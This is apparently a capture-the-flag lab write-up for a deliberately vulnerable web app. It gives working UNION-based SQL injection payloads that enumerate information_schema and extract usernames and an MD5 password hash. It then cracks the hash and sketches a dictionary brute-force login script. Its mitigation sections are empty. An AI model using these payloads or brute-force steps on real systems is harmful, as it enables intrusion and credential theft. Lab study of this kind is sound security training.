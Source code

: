a01 + a05

How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
-> It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
-> We understand that it looks for the content of db_default in the wrong database.
-> We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
-> We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
-> We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
-> We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
-> It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

`full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

* We can now go to the Signin page and log in with :
>Username : admin
Password : shadow

Risks:


How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/